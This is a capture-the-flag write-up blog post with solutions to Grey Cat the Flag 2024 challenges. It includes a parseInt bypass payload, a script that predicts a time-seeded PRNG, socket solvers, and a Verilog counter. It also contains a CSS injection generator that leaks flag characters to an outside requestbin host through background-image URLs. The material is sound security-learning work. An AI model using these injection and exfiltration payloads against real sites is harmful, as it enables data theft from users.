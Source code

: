 ```yaml
---
title: "Write-ups for Grey Cat the Flags CTF 2024"
date: 2024-04-21T14:46:00+0800
tags: ["writeups"]
author: "Shang En Sim"
showToc: false
TocOpen: false
draft: false
hidemeta: false
comments: true
description: "I'm rusty..."
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
---
```


## Greyctf Survey

Refer to: [MDN](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/parseInt)

> In general, it's a bad idea to use parseInt() on non-strings, especially to use it as a substitution for Math.trunc(). It may work on small numbers:
> ```js
> parseInt(15.99, 10); // 15
> parseInt(-15.1, 10); // -15
> ```
> However, it only happens to work because the string representation of these numbers uses basic fractional notation (`"15.99"`, `"-15.1"`), where `parseInt()` stops at the decimal point. Numbers greater than or equal to 1e+21 or less than or equal to 1e-7 use exponential notation (`"1.5e+22"`, `"1.51e-8"`) in their string representation, and `parseInt()` will stop at the `e` character or decimal point, which always comes after the first digit. This means for large and small numbers, `parseInt()` will return a one-digit integer:
> ```js
> parseInt(4.7 * 1e22, 10); // Very large number becomes 4
> parseInt(0.00000000000434, 10); // Very small number becomes 4
> ```


### Relevant Source Code

```js
app.post('/vote', async (req, res) => {
    const {vote} = req.body;
    if(typeof vote != 'number') {
        return res.status(400).json({
            "error": true,
            "msg":"Vote must be a number"
        });
    }
    if(vote < 1 && vote > -1) {
        score += parseInt(vote);
        if(score > 1) {
            score = -0.42069;
            return res.status(200).json({
                "error": false,
                "msg": config.flag,
            });
        }
        return res.status(200).json({
            "error": false,
            "data": score,
            "msg": "Vote submitted successfully"
        });
    } else {
        return res.status(400).json({
            "error": true,
            "msg":"Invalid vote"
        });
    }
})
```

### Solution

`POST` `{"vote": 0.00000000000434}` to `/vote`

## All About Timing

Since the PRNG is seeded with the current time, we just have to seed our PRNG with the current time and connect to the server and call `random.randint`.

```py
import time
import random
import socket

random.seed(int(time.time()))

n = random.randint(1000000000000000, 10000000000000000 - 1)

# Send the number to the client via socket
# nc challs.nusgreyhats.org 31111

HOST = "challs.nusgreyhats.org"
PORT = 31111

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    data = s.recv(1024)
    s.sendall(f"{n}\n".encode())
    data = s.recv(1024)


print("Received", repr(data))
```

## Poly Playground

This challenge is an exercise in socket programming and regular expressions.

### Solution

```py
import socket
import re

HOST = "challs.nusgreyhats.org"
PORT = 31113
PATTERN = "Roots:\s*((?:-?\d+,?\s*)+)"


def polynomial_from_roots(roots):
    # For a single root, the polynomial is (x - root), hence coefficients [1, -root]
    # Coefficients of the resulting polynomial, starting as 1 (for x^0)
    coeffs = [1]

    for root in roots:
        # Current root to process, start with x - root = (1)x + (-root)
        current = [1, -root]
        # Temporary new coefficients, initialized to zero and length of (len(coeffs) + len(current) - 1)
        new_coeffs = [0] * (len(coeffs) + 1)

        # Multiply out the polynomials using the distributive property (convolution)
        for i in range(len(coeffs)):
            for j in range(len(current)):
                new_coeffs[i + j] += coeffs[i] * current[j]

        # Update coeffs to new_coeffs
        coeffs = new_coeffs

    return coeffs


with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    data = s.recv(4096)
    data = data.decode().strip()
    match = re.search(PATTERN, data)
    roots = [int(match.group(1))]
    print("Roots:", roots)
    results = polynomial_from_roots(roots)
    results = [str(result) for result in results]
    print("Results:", ",".join(results))
    s.sendall(str(",".join(results)).encode())
    s.sendall(b"\n")

    while True:
        data = s.recv(4096)
        print(data.decode())
        data = data.decode().strip()
        match = re.search(PATTERN, data)
        roots = str(match.group(1)).split(",")
        roots = [int(root) for root in roots]
        print("Roots:", roots)
        results = polynomial_from_roots(roots)
        results = [str(result) for result in results]
        print("Results:", ",".join(results))
        s.sendall(str(",".join(results)).encode())
        s.sendall(b"\n")
```

## Beautiful Styles

Classic [CSS Injection Attack](https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection).

### Solution

```py
# Digits, uppercase letters
# As given in the challenge description
CHARSET = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZf"

output = ""

for c in CHARSET:
    text = f"""
input[id=flag][value^="grey{{X5S34RCH1fY0UC4NF1ND1T{c}"]{{ # Update this as you find each char through the requestbin
    background-image: url(https://en9qepifcn9k.x.pipedream.net/{c});
}}
    """

    output += text

with open("output.txt", "w") as f:
    f.write(output)
```

## Verilog Count

We are asked to write a Verilog program for the Icarus Verilog simulator. We are not allowed to use conditionals (`if`, `else`) and addition (`+`) or ternary operators (`?`).

But we are allowed to use the subtraction (`-`) operator.

The predefined testbench setup requires us to have an input clock `clk` and output 32 bits.

### Solution

```verilog
module counter(
    input clk,
    output reg [31:0] result
);

    reg [31:0] next_count;

    initial begin
        result = 32'd0;
    end

    always @(posedge clk) begin
        result <= result - (-1);
    end

endmodule
```
